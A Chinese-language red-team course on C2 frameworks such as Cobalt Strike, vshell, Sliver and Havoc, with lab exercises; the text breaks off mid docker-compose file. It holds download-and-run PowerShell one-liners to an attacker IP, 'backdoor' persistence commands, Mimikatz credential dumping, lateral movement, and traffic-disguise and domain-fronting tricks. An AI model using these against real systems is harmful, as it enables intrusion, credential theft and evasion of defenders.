


# C2 框架实战详解 —— Cobalt Strike / vshell / Sliver / Havoc
## 目录
+ [第 1 课 C2 原理与架构](#第-1-课-c2-原理与架构)
    - [1.1 什么是 C2](#11-什么是-c2)
    - [1.2 C2 的角色](#12-c2-的角色)
    - [1.3 通信模型](#13-通信模型)
    - [1.4 Beacon 与 Jitter](#14-beacon-与-jitter)
    - [1.5 主流 C2 对比](#15-主流-c2-对比)
+ [第 2 课 Cobalt Strike 实战](#第-2-课-cobalt-strike-实战)
    - [2.1 CS 架构](#21-cs-架构)
    - [2.2 Team Server 启动](#22-team-server-启动)
    - [2.3 Listener 与 Payload](#23-listener-与-payload)
    - [2.4 Beacon 操作](#24-beacon-操作)
    - [2.5 横向与提权](#25-横向与提权)
    - [2.6 Malleable C2 配置](#26-malleable-c2-配置)
    - [2.7 Aggressor Script](#27-aggressor-script)
+ [第 3 课 vshell 与其他 C2 复现](#第-3-课-vshell-与其他-c2-复现)
    - [3.1 vshell 介绍](#31-vshell-介绍)
    - [3.2 vshell 部署](#32-vshell-部署)
    - [3.3 vshell 实战流程](#33-vshell-实战流程)
    - [3.4 Sliver C2](#34-sliver-c2)
    - [3.5 Havoc C2](#35-havoc-c2)
    - [3.6 Mythic 模块化](#36-mythic-模块化)
+ [第 4 课 综合靶场 + 防御 + 真实案例](#第-4-课-综合靶场--防御--真实案例)
    - [4.1 综合靶场搭建](#41-综合靶场搭建)
    - [4.2 红队全流程演示](#42-红队全流程演示)
    - [4.3 流量检测与规避](#43-流量检测与规避)
    - [4.4 防御方案](#44-防御方案)
    - [4.5 真实案例](#45-真实案例)
+ [附录 A 必背 30 条](#附录-a-必背-30-条)
+ [附录 B 课后作业](#附录-b-课后作业)
+ [附录 C 法律与授权提醒](#附录-c-法律与授权提醒)

---

## 整体学习路径


---

# 第 1 课 C2 原理与架构
> 时长 60 分钟。建立 C2 的概念模型，理解它和"普通 webshell"的区别。
>

## 1.1 什么是 C2
### 1.1.1 定义
**C2（Command and Control，命令与控制）**：攻击者用来**远程控制已被攻陷主机**的平台与协议体系。

业内叫法：

+ C2 / C2C / C&C（Command & Control）
+ 僵尸网络控制端（早期叫法）
+ 后渗透框架（Post-Exploitation Framework）

```plain
攻击者（红队）
    │
    │  管理 / 下发指令
    ▼
┌─────────────┐
│ C2 Server   │ ←─── 流量伪装（HTTP/DNS/SMB）
└──────┬──────┘
       │
       │  Beacon 心跳 + 数据回传
       ▼
┌─────────────────────────────┐
│ 受害主机                    │
│ ┌────────────────────────┐  │
│ │ Beacon / Agent / Implant│ │ ← 后台进程
│ └────────────────────────┘  │
└─────────────────────────────┘
```

### 1.1.2 为什么需要 C2
过去用 **Webshell + 一句话木马** 也能控制主机，为什么要有 C2？

| 维度 | Webshell | C2 |
| --- | --- | --- |
| 通信 | 单向 HTTP | 双向，多种协议 |
| 隐蔽 | 落盘文件易被发现 | 内存执行（fileless） |
| 持久 | 文件被删就丢 | 注册表 / 服务 / 计划任务持久化 |
| 横向 | 手工 | 工具化（PTH / WMI / SMB） |
| 凭据 | 手工 | 集成 Mimikatz / lsass dump |
| 协作 | 单人 | Team Server 多人共享 |
| 加密 | 明文 | AES / RSA 全程加密 |
| 抗检测 | 易查杀 | Malleable Profile 流量伪装 |


**C2 是"渗透测试工程师在内网的大脑"，相当于一个远程 IDE**。

### 1.1.3 C2 与 APT
高级威胁（APT）一定有 C2，业内反 APT 的核心工作之一就是**检测 C2 流量**。

## 1.2 C2 的角色
### 1.2.1 四大核心组件
```plain
┌─────────────────────────────────────────────────┐
│ 1. Operator (操作员)                            │
│    红队成员，通过客户端下发指令                  │
│                                                 │
│ 2. Team Server / C2 Server                      │
│    服务端，管理所有 Beacon、下发指令、收集数据  │
│                                                 │
│ 3. Listener (监听器)                            │
│    服务端对外开放的端口，等 Beacon 回连         │
│    - HTTP / HTTPS Listener                      │
│    - DNS Listener                               │
│    - SMB Pipe Listener                          │
│    - TCP Listener                               │
│                                                 │
│ 4. Beacon / Agent / Implant                     │
│    受害者主机上的进程，定期回连服务器           │
└─────────────────────────────────────────────────┘
```

### 1.2.2 C2 通信流程


## 1.3 通信模型
### 1.3.1 HTTP / HTTPS Listener
最常见，伪装成正常 Web 流量：

+ Beacon 主动 GET/POST 服务端
+ 走 80/443，能穿透大多数防火墙
+ 用 Malleable Profile 伪装成 jQuery / Apache / Nginx 等正常请求

### 1.3.2 DNS Listener
适合只允许 DNS 出网的环境：

+ 把指令编码进 DNS 查询
+ 数据通过 TXT / A 记录返回
+ 速度慢但隐蔽

### 1.3.3 SMB Listener
**内网横向专用**：

+ Beacon 之间通过 SMB 命名管道通信
+ 不走网络，仅本机/内网 IPC$
+ 父子 Beacon 模式：边界 Beacon 当跳板

```plain
攻击者 ──HTTP──► 边界 Beacon ──SMB──► 内网 Beacon
                  (HTTP)              (不出网)
```

### 1.3.4 TCP Listener
绑定端口，反向 TCP 连接。适合内部隔离网络。

### 1.3.5 Foreign Listener
CS 特有，可以与 **Metasploit / Sliver / Empire** 共享 Beacon，做框架切换。

## 1.4 Beacon 与 Jitter
### 1.4.1 Beaconing（心跳）
Beacon 默认**定期回连**服务器：

+ `sleep 60`：每 60 秒回连一次
+ `sleep 30`：30 秒，更频繁但更易被发现

回连间隔 = "潜伏度"

```plain
慢 = 隐蔽，但响应迟
快 = 实时，但易被流量分析抓到
```

### 1.4.2 Jitter（抖动）
为了避免规律性的回连（每 60.0 秒一次），引入随机抖动：

```plain
sleep 60 jitter 20%
→ 实际回连时间在 48 ~ 72 秒之间随机
```

防止蓝队用周期性流量特征告警。

### 1.4.3 Checkin
**Checkin** 是首次建立连接（注册 Beacon 到服务端）。  
**Task** 是每次取任务（之后的心跳）。

```plain
Checkin = 一次性注册
Beaconing = 反复 Task
```

## 1.5 主流 C2 对比
### 1.5.1 商业 C2
| 工具 | 厂商 | 价格 | 特点 |
| --- | --- | --- | --- |
| **Cobalt Strike** | Fortra | $3,590/年/用户 | 业界标杆，Malleable Profile |
| **Brute Ratel** | BYL | $2,500/年 | 抗 EDR 强，红队新宠 |
| **Crimson | Walmart | 内部 | 不公开 |


### 1.5.2 开源 / 国产 C2
| 工具 | 类型 | 特点 |
| --- | --- | --- |
| **Sliver** | 开源 Go | 现代 CS 替代，支持 WireGuard |
| **Havoc** | 开源 C/C++ | UI 漂亮，年轻人流行 |
| **Mythic** | 开源 Modular | 多 Agent 框架，模块化 |
| **Empire** | 开源 PowerShell | 老牌，已 3.0 重写 |
| **vshell** | 国产开源 | 中文友好，门槛低 |
| **Stowaway** | 国产 | 多级代理 |
| **Manjusaka** | 国产 | 中文 GUI |
| **Sliver** | 开源 | Go 实现，跨平台 |


### 1.5.3 选择建议
| 场景 | 推荐 |
| --- | --- |
| 大型红队、模拟 APT | Cobalt Strike / Brute Ratel |
| 学习入门 | **vshell / Sliver**（免费） |
| CTF / 靶场 | Havoc / Sliver |
| 中文环境 | **vshell** |
| 多种语言 Agent | Mythic |
| 老系统兼容 | Empire |


---

## 第 1 课小结
| 模块 | 关键点 |
| --- | --- |
| C2 定义 | 远程控制攻陷主机的平台 |
| 4 组件 | Operator / Team Server / Listener / Beacon |
| 通信模型 | HTTP/DNS/SMB/TCP |
| Beaconing | 心跳频率与隐蔽性 |
| Jitter | 打破规律性 |
| 商业代表 | Cobalt Strike |
| 开源代表 | vshell / Sliver / Havoc |


## 课间实操 1（15 分钟）
1. 在你的攻击机（Kali）上**画一张 C2 架构图**，标出 Operator → Team Server → Listener → Beacon → Victim 的数据流向。
2. 思考：如果你的目标机器只允许 80/443 出网，应该选哪种 Listener？
3. 思考：Beacon 间隔 60 秒 + 0% jitter 和 60 秒 + 50% jitter，哪个更容易被流量分析抓到？为什么？
4. 浏览 [https://github.com/topics/c2-framework](https://github.com/topics/c2-framework)，列出 3 个你之前没听过的 C2。

---

# 第 2 课 Cobalt Strike 实战
> 时长 60 分钟。Cobalt Strike（CS）是商业 C2 标杆，业内"红队默认武器"。
>

## 2.1 CS 架构
### 2.1.1 组件
```plain
┌────────────────────────────────────────────────┐
│ Cobalt Strike Client (Java GUI)                │
│   - 操作员使用                                  │
└────────────────┬───────────────────────────────┘
                 │
                 ▼
┌────────────────────────────────────────────────┐
│ Team Server (Java Server)                      │
│   - 监听 50050 端口（操作员连接）              │
│   - 管理所有 Listener、Beacon                  │
│   - 存储数据（日志、凭据、截图）                │
└────────────────┬───────────────────────────────┘
                 │
                 ▼
┌────────────────────────────────────────────────┐
│ Listeners                                      │
│   - HTTP/HTTPS/DNS/SMB                          │
│   - 对外开放端口                                │
└────────────────────────────────────────────────┘
```

### 2.1.2 文件结构
```plain
cobaltstrike/
├── teamserver                # 启动脚本
├── cobaltstrike.jar          # 主程序
├── agressor scripts/         # Aggressor 脚本
├── logs/                     # 日志
├── downloads/                # 上传/下载文件
├── profiles/                 # Malleable Profile
└── third-party/              # 第三方工具
```

## 2.2 Team Server 启动
### 2.2.1 准备
CS 需要 Java 11+，Kali 自带。

```bash
# 下载 CS（需要授权）
# https://www.cobaltstrike.com/
# 解压
unzip cobaltstrike-dist.zip -d cobaltstrike
cd cobaltstrike
```

> ⚠ **法律提醒**：CS 是商业软件，**试用版**仅 21 天，无许可证使用破解版属违法。本课件演示授权版用法，学习阶段建议用 **vshell / Sliver** 等开源替代。
>

### 2.2.2 启动
```bash
# 必须用 root
sudo ./teamserver 192.168.1.10 my_password
# 192.168.1.10 = Team Server 对外 IP
# my_password = 操作员连接密码

# 输出：
[*] Generating X509 Certificate
[*] Starting Team Server on 0.0.0.0:50050
[+] Team Server online
```

### 2.2.3 客户端连接
```bash
# 启动客户端
./start.sh     # Linux
# 或 Windows 双击 cobaltstrike.exe

# 连接配置
Host: 192.168.1.10
Port: 50050
User: operator1
Password: my_password
```

### 2.2.4 界面介绍
```plain
顶部菜单：Cobalt Strike / View / Attacks / Reporting
左侧：模块导航
中间：Beacon 列表（每个受害主机一行）
右侧：Target Tab（主机列表）
底部：命令输出
```

## 2.3 Listener 与 Payload
### 2.3.1 创建 Listener
`Cobalt Strike → Listeners → Add`

```plain
Name: http-80
Payload: Beacon HTTP
HTTP Hosts: 192.168.1.10
HTTP Port: 80
```

不同 Listener 类型：

| 类型 | 用途 |
| --- | --- |
| Beacon HTTP | HTTP 通信，最常用 |
| Beacon HTTPS | HTTPS + 证书 |
| Beacon DNS | DNS 隧道 |
| Beacon SMB | 内网横向 |
| Beacon TCP | 反向 TCP |
| Foreign DNS / HTTP | 与其他框架对接 |


### 2.3.2 Payload 类型
#### Staged（分阶段）
```plain
1. 投递小型 Stager（几 KB）
2. Stager 连接 Team Server 下载完整 Beacon（~200KB）
3. 内存加载执行
```

+ 优点：投递文件小
+ 缺点：传输过程易被抓

文件类型：

+ `Staged Payload (Windows EXE)` → `payload.exe`
+ `Staged Payload (Windows DLL)` → `payload.dll`
+ `Staged Payload (Windows Service EXE)` → 适合用服务启动

#### Stageless（无阶段）
```plain
1. 直接投递完整 Beacon（含通信代码）
2. 一次到位，无需二次下载
```

+ 优点：隐蔽性好（不分阶段）
+ 缺点：文件较大（~200KB+）

文件类型：

+ `Windows Executable (Stageless)` → `payload.exe`
+ `Windows Executable (S)` → 服务版

### 2.3.3 生成 Payload
`Attacks → Packages → Windows Executable (S)`

```plain
Listener: http-80
Output: Raw / Windows EXE / Windows DLL / Windows Service EXE
```

或通过 PowerShell One-liner：

`Attacks → Scripted Web Delivery`

```plain
URL: /a
Listener: http-80
Type: Powershell
# 生成：
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.10/a'))"
```

在受害机执行即可上线。

## 2.4 Beacon 操作
### 2.4.1 Beacon 交互命令
```plain
Right-click Beacon → Interact

# 基础命令
help                 # 帮助
whoami               # 当前身份
sleep 60             # 设置心跳 60 秒
sleep 30 jitter 20   # 30 秒 + 20% 抖动
checkin              # 强制立即回连

# 文件操作
pwd                  # 当前目录
ls                   # 列目录
cd C:\Temp
upload /local/file   # 上传
download C:\file     # 下载
mv                   # 移动
rm                   # 删除

# 执行
shell whoami         # 通过 cmd 执行
run whoami           # 直接执行（不经 cmd）
execute C:\Temp\tool.exe
powershell-import /local/script.ps1
powershell Get-Process

# 信息
ps                   # 进程
jobs                 # 后台任务
jobkill <id>
```

### 2.4.2 Beacon 模式
```plain
Default   ← 默认，每 60 秒回连
Interactive ← 立即响应（适合交互）
```

切换：右键 → Sleep → 改成 `0` 即实时。

### 2.4.3 持久化
```plain
# 注册表
shell reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v backdoor /t REG_SZ /d "C:\Temp\beacon.exe" /f

# 服务（需要 admin）
shell sc create backdoor binpath= "C:\Temp\beacon.exe" start= auto
shell net start backdoor

# 计划任务
shell schtasks /create /tn "Backdoor" /tr "C:\Temp\beacon.exe" /sc minute /mo 1 /ru System
```

CS 自带 `persistence` 模块：

`Attacks → Persistence → Scheduled Job / Service / Registry`

## 2.5 横向与提权
### 2.5.1 横向移动
```plain
# 通过 SMB Beacon 链式
1. 边界 Beacon 上线
2. 右键 → Spawn → 选择 SMB Listener
3. 在内网机通过 psexec / wmi 启动 SMB Beacon

# jump 模块
jump psexec 10.10.0.5
jump psexec_psh 10.10.0.5
jump winrm 10.10.0.5
jump wmi 10.10.0.5

# remote-exec 模块（不开 Beacon）
remote-exec psexec 10.10.0.5 whoami
remote-exec wmi 10.10.0.5 whoami
remote-exec winrm 10.10.0.5 whoami
```

### 2.5.2 凭据抓取
```plain
# Mimikatz（已集成）
mimikatz sekurlsa::logonpasswords

# LSASS dump（更隐蔽）
右键 → Access → Dump Hashes
# 或
lsadump
```

### 2.5.3 提权
CS 自带 `Elevate` 模块：

`Beacon → Access → Elevate`

常见 EXP：

+ `ms14-058`
+ `ms15-051`
+ `ms16-016`
+ `ms17-010` (EternalBlue)
+ `uac-token-duplication`
+ `uac-dll`

### 2.5.4 端口扫描
```plain
# Beacon 内置
portscan 10.10.0.0/24 445,3389,22 1024
# 显示存活 + 开放端口
```

### 2.5.5 内网代理
```plain
# Beacon → Pivoting → SOCKS Proxy
socks 1080
# 在 Team Server 启动 1080 SOCKS
# 浏览器或 proxychains 用此代理即可访问内网
```

## 2.6 Malleable C2 配置
### 2.6.1 什么是 Malleable Profile
**Malleable C2 Profile**：用文本文件**完全自定义** CS 的流量特征，伪装成正常 Web 流量。

```plain
伪装成 jQuery：
- User-Agent: Mozilla/5.0
- URI: /jquery-3.4.1.min.js
- Cookie: __cfduid=...
- 响应体：jQuery 真实代码

伪装成 Apache 默认页：
- URI: /index.html
- 响应：It works!
```

### 2.6.2 配置示例
`profiles/example.profile`：

```plain
set sample_name "jQuery C2";
set sleeptime "60000";
set jitter "20";

http-get {
    set uri "/jquery-3.4.1.min.js";

    client {
        header "Accept" "*/*";
        header "Referer" "http://code.jquery.com/";
        metadata {
            base64url;
            prepend "__cfduid=";
            header "Cookie";
        }
    }

    server {
        header "Server" "nginx/1.18.0";
        header "Content-Type" "application/javascript";
        output {
            base64url;
            print;
        }
    }
}

http-post {
    set uri "/api/v1/data";
    # ...
}
```

启动 Team Server 时指定：

```bash
./teamserver 192.168.1.10 my_password profiles/example.profile
```

### 2.6.3 公开 Profile 库
```plain
https://github.com/rsmudge/Malleable-C2-Profiles
https://github.com/Bluerust/CS-Malleable-Profiles
https://github.com/threatexpress/malleable-c2
```

### 2.6.4 CDN 隐藏
把 CS 服务端藏在 Cloudflare / domain fronting 后：

```plain
# Cloudflare 中转
set uri "/jquery.min.js";
Host: cdn.jquery.com;
# 真实流量：受害机 → Cloudflare → 你的 CS
# 蓝队看到的是 Cloudflare IP，溯源困难
```

**Domain Fronting**（部分云厂已封）：

```plain
Host: legit.azureedge.net
Actual: malicious.azurewebsites.net
```

## 2.7 Aggressor Script
### 2.7.1 什么是 Aggressor
**Aggressor Script**：基于 Sleep 语言的 CS 自动化脚本，类似 Burp 插件。

用途：

+ 自动化操作（一键横向）
+ 自定义 UI
+ 自动钓鱼
+ 自动持久化

### 2.7.2 简单示例
```plain
# hello.cna
println("Hello from Aggressor");

command hello {
    println("Hello, " . $1);
}

# Beacon 右键菜单
popup beacon_bottom {
    item("&One Click Pwn") {
        bshell($1, "whoami > C:\\Temp\\who.txt");
    }
}
```

加载：`Cobalt Strike → Script Manager → Load → hello.cna`

### 2.7.3 常用 API
```plain
bshell($bid, "cmd")           # 在 Beacon 执行 shell
bexecute($bid, "exe")         # 执行 exe
bupload($bid, "local_path")   # 上传
bportscan($bid, "10.0.0.0/24", "445")  # 端口扫描
bjump($bid, "psexec", "10.0.0.5")      # 横向
```

### 2.7.4 推荐插件
```plain
CrossC2          ← 跨平台 Beacon（Linux/Mac）
Ladon            ← 内网扫描
ElevateKit       ← 提权 EXP 集合
HelpColor        ← UI 美化
BRANDON-PS       ← PowerShell 模块
```

---

## 第 2 课小结
| 模块 | 关键点 |
| --- | --- |
| 架构 | Client / Team Server / Listener / Beacon |
| Payload | Staged 小 / Stageless 全 |
| Beacon | shell/run/upload/download |
| 横向 | jump psexec / wmi |
| SOCKS | socks 1080 内网代理 |
| 提权 | Beacon → Access → Elevate |
| Malleable | 自定义流量伪装 |
| Aggressor | 自动化脚本 |


## 课间实操 2（20 分钟）
由于 CS 商业授权问题，本课实操用 **vshell**（开源）代替：

1. 在 Kali 上部署 vshell（见第 3 课）。
2. 生成一个 Linux 植入物，在自己机器上运行，观察上线。
3. 模拟下面的 CS 操作（在 vshell 中找对应功能）：
    - sleep 30
    - upload 文件
    - download 文件
    - 执行命令
    - 启动 SOCKS 代理
4. 如果你有 CS 试用版授权，按 2.2 启动 Team Server，连接客户端，重复以上操作。

---

# 第 3 课 vshell 与其他 C2 复现
> 时长 60 分钟。本课讲免费 / 开源 C2，特别推荐 **vshell**。
>

## 3.1 vshell 介绍
### 3.1.1 vshell 是什么
**vshell**：国内安全研究者开发的跨平台 C2 框架，**开源**、**中文友好**、**入门门槛低**。

+ GitHub：[https://github.com/veo/vshell](https://github.com/veo/vshell)
+ 特点：
    - Web 界面（不用客户端）
    - 支持 Windows / Linux / macOS Beacon
    - 内置 Mimikatz / Shellcode 注入
    - 中等抗检测能力

### 3.1.2 vshell 适用场景
+ 个人渗透测试 / SRC 报告
+ CTF 内网题
+ 学习 C2 概念（比 CS 易上手）
+ 红队演练（中小规模）

### 3.1.3 vshell vs Cobalt Strike
| 维度 | vshell | Cobalt Strike |
| --- | --- | --- |
| 授权 | 开源免费 | 商业授权 |
| 平台 | 跨平台 | Windows/Linux 优先 |
| UI | Web | Java GUI |
| 协议 | HTTP/S | HTTP/HTTPS/DNS/SMB/TCP |
| Malleable | 部分 | 完整 |
| 模块 | 较少 | 丰富 + 插件生态 |
| 学习曲线 | 平缓 | 陡峭 |


## 3.2 vshell 部署
### 3.2.1 Docker 一键部署
```bash
docker run -d \
  --name vshell \
  -p 80:80 \
  -p 443:443 \
  -v $(pwd)/vshell_data:/data \
  veinmail/vshell:latest

# 访问
https://localhost
# 默认账户 admin / vshell
```

### 3.2.2 手工部署（源码编译）
```bash
git clone https://github.com/veo/vshell.git
cd vshell

# 编译服务端（Go）
go build -o vshell_server ./cmd/server

# 编译 Beacon（各平台）
./scripts/build_agent.sh windows
./scripts/build_agent.sh linux
./scripts/build_agent.sh darwin

# 启动服务
./vshell_server -c config.yaml
```

`config.yaml` 示例：

```yaml
server:
  host: 0.0.0.0
  port: 443
  cert: ./cert.pem
  key: ./key.pem

auth:
  admin_user: admin
  admin_pass: <bcrypt_hash>

database:
  type: sqlite
  path: ./vshell.db
```

### 3.2.3 启动后配置
```plain
1. 浏览器访问 https://your-ip
2. 登录 admin / admin（强制改密码）
3. 进入 Listeners → 创建 HTTP Listener
   - Bind IP: 0.0.0.0
   - Port: 443
   - Profile: default
4. 进入 Payloads → 生成 Windows EXE
   - Listener: http-443
   - Format: Windows EXE / DLL / Shellcode
5. 下载 payload.exe
```

## 3.3 vshell 实战流程
### 3.3.1 上线第一台机器
```bash
# 在受害机执行（Windows）
powershell -nop -w hidden -c "IEX (iwr -usebasicparsing http://10.0.0.1:443/a)"
# 或直接运行 payload.exe
```

Web UI 上**立刻看到 Beacon 列表**，显示：

+ Hostname
+ IP
+ User
+ OS
+ Last Check-in

### 3.3.2 交互
点 Beacon → Interact：

```plain
help
whoami
shell whoami
shell ipconfig
shell net user /domain

# 文件操作
upload /local/file
download C:\Users\admin\Desktop\flag.txt
ls C:\
cd C:\Temp

# 截图
screenshot

# 进程
ps
migrate <pid>     # 进程迁移
```

### 3.3.3 横向移动
```plain
# 内置端口扫描
portscan 10.10.0.0/24 445,3389

# 凭据抓取（Windows）
mimikatz sekurlsa::logonpasswords

# 横向（需要 hash）
pth Administrator <ntlm_hash>
```

### 3.3.4 SOCKS 代理
```plain
Listener → Add → SOCKS 5 → Port 1080
# 然后本机用 proxychains
proxychains nmap 10.10.0.0/24
```

### 3.3.5 持久化
```plain
# 计划任务（Windows）
schtasks /create /tn "backdoor" /tr "C:\Temp\beacon.exe" /sc minute /mo 5 /ru System

# 注册表
reg add "HKCU\...\Run" /v backdoor /t REG_SZ /d "C:\Temp\beacon.exe" /f

# 服务
sc create backdoor binpath= "C:\Temp\beacon.exe" start= auto
```

## 3.4 Sliver C2
### 3.4.1 Sliver 介绍
**Sliver**：Bishop Fox 开发的开源 C2，Go 编写，**现代化的 CS 替代品**。

+ GitHub：[https://github.com/BishopFox/sliver](https://github.com/github.com/BishopFox/sliver)
+ 支持 Windows / Linux / macOS
+ 内置 WireGuard 通信（性能优于 SOCKS）
+ gRPC + 多 Operator
+ 强加密（每 Implant 独立密钥对）

### 3.4.2 安装
```bash
# Kali
curl -sf -L https://sliver.sh/install | sudo bash

# 启动
sliver
# 进入交互控制台
```

### 3.4.3 实战流程
```bash
# 1. 创建 Listener
sliver > http --lhost 10.0.0.1 --lport 8080

# 2. 生成 Implant
sliver > generate --http 10.0.0.1:8080 --os windows --save /tmp/
# 输出：/tmp/HONORED_TIDE.exe

# 3. 受害机执行
# 4. 看 sessions
sliver > sessions
# ID  Name           Transport  ...

# 5. 进入 session
sliver > use 1
sliver (HONORED_TIDE) > whoami
sliver (HONORED_TIDE) > shell
sliver (HONORED_TIDE) > ls
sliver (HONORED_TIDE) > upload /local/file

# 6. 横向（execute-assembly 跑 .NET 工具）
sliver (HONORED_TIDE) > execute-assembly Rubeus.exe kerberoast

# 7. WireGuard 代理
sliver (HONORED_TIDE) > wg-port-forward --remote 10.10.0.5:445 --local 4445
```

### 3.4.4 Sliver 与 CS 共享
Sliver 支持 **Foreign Listener**，可以把 Sliver Beacon 转给 CS 控制（反之亦然）：

```bash
sliver > stage-listener --url tcp://10.0.0.1:8443 --profile windows-shellcode
```

## 3.5 Havoc C2
### 3.5.1 Havoc 介绍
**Havoc**：年轻一代流行的开源 C2，C/C++ 编写，UI 漂亮。

+ GitHub：[https://github.com/HavocFramework/Havoc](https://github.com/HavocFramework/Havoc)
+ Demon Agent：现代 Windows Implant，对抗 EDR 强
+ 模块化（Ldr / Sleep Mask / Injection）

### 3.5.2 部署
```bash
git clone https://github.com/HavocFramework/Havoc.git
cd Havoc

# 安装依赖
pip install -r requirements.txt

# 启动 Team Server
./havoc teamserver --user admin --pass password

# 启动客户端
./havoc client
```

### 3.5.3 Havoc 实战
```plain
1. Listeners → Add HTTP
2. Payloads → Windows EXE / DLL / Shellcode
3. 投递 → Demon 上线
4. Demon 命令：
   - shell
   - whoami
   - ls
   - cat
   - upload
   - download
   - sleep
   - checkin
```

### 3.5.4 Havoc 特色
+ **Sleep Mask**：Beacon 睡眠时加密内存，绕过内存扫描
+ **Injection Techniques**：APC / ThreadHijack / ProcessHollowing
+ **Indirect Syscalls**：直接 syscall 绕过用户层 hook
+ **ETWTI Bypass**：Patch ETW/EDR 探针

## 3.6 Mythic 模块化
### 3.6.1 Mythic 介绍
**Mythic**：开源的"多 Agent C2 框架"，可以同时跑多种 Agent（Apollo / Athena / Poseidon / Merlin）。

+ GitHub：[https://github.com/its-a-feature/Mythic](https://github.com/its-a-feature/Mythic)
+ Docker Compose 部署
+ Web UI + GraphQL API

### 3.6.2 部署
```bash
git clone https://github.com/its-a-feature/Mythic.git
cd Mythic
sudo ./install_docker_ubuntu.sh
make

# 启动
mythic-cli start
# 访问 https://127.0.0.1:7443
# 默认 mythic / mypassword
```

### 3.6.3 安装 Agent
```bash
mythic-cli install github https://github.com/MythicAgents/apollo.git
mythic-cli install github https://github.com/MythicAgents/poseidon.git
mythic-cli install github https://github.com/MythicC2Profiles/http.git
```

### 3.6.4 Mythic 特色
+ **多 C2 Profile**：HTTP / WebSocket / SMB / TCP
+ **多 Agent**：Apollo (.NET)、Poseidon (Go)、Athena (Cross-platform .NET)、Merlin (Go)
+ **任务化**：每个操作都是异步任务，支持回调
+ **GraphQL API**：方便二次开发

### 3.6.5 各 C2 对比
| C2 | 学习曲线 | 隐蔽性 | 模块 | 适合 |
| --- | --- | --- | --- | --- |
| Cobalt Strike | 陡峭 | 中（默认） | 丰富 | 大型红队 |
| Brute Ratel | 陡峭 | 极强 | 一般 | 抗 EDR 场景 |
| vshell | 平缓 | 中 | 一般 | 国人 / 学习 |
| Sliver | 中等 | 中 | 较多 | 开源替代 CS |
| Havoc | 中等 | 强 | 一般 | 年轻红队 |
| Mythic | 陡峭 | 中 | 多语言 | 复杂任务 |


---

## 第 3 课小结
| 工具 | 优势 | 适合 |
| --- | --- | --- |
| Cobalt Strike | 标杆，生态全 | 商业红队 |
| vshell | 免费、中文 | 学习、个人 |
| Sliver | 开源、WireGuard | 替代 CS |
| Havoc | 抗 EDR、UI 漂亮 | 红队 |
| Mythic | 多 Agent | 复杂任务 |


## 课间实操 3（25 分钟）
1. **vshell 部署**：

```bash
docker run -d --name vshell -p 80:80 -p 443:443 veinmail/vshell:latest
```

访问 `http://localhost` 登录 admin / vshell。

2. 创建 HTTP Listener，生成 Windows EXE Payload。
3. 在 Windows 虚拟机运行 payload.exe，观察上线。
4. 完成：
    - `shell whoami`
    - `upload` 一个文件
    - `download` 一个文件
    - `screenshot`
    - 启动 SOCKS 5
5. **Sliver 试一遍**：

```bash
curl -sf https://sliver.sh/install | sudo bash
sliver
http --lhost 127.0.0.1 --lport 8080
generate --http 127.0.0.1:8080 --os linux --save /tmp/
# 运行生成的 ELF，观察 sessions
```

---

# 第 4 课 综合靶场 + 防御 + 真实案例
> 时长 60 分钟。把前 3 课串成完整红队流程。
>

## 4.1 综合靶场搭建
### 4.1.1 靶场架构
```plain
攻击者 (Kali + vshell)
    │
    │ HTTP 443
    ▼
边界机 (Ubuntu + DVWA)
    │
    │ 内网 10.10.0.0/24
    ▼
┌──────────────────────────────────┐
│ Win10 域成员 (10.10.0.20)        │
│ Win2019 域控 (10.10.0.10)        │
│ Win2019 文件服务器 (10.10.0.30)  │
│ Linux OA (10.10.0.40)            │
└──────────────────────────────────┘
```

### 4.1.2 docker-compose.yml
```yaml
version: '3'
services:
  vshell:
    image: veinmail/vshell:latest
    container_name: vshell
    ports:
      - "443:443"
    volumes:
      - ./vshell_data:/data
    networks:
      extranet:
        ipv4_address: 192.168.100.10
      intranet:
        ipv4_address: 10.10.0.1

  dvwa:
    image: vulnerables/web-dvwa
    container_name: dvwa
    ports:
      - "8080:80"
    networks:
      extranet:
        ipv4_address: 192.168.100.20
      intranet:
        ipv4_address: 10.10.0.2

  oa:
    image: ubuntu:22.04
    container_name: oa
    command: sleep infinity
    networks:
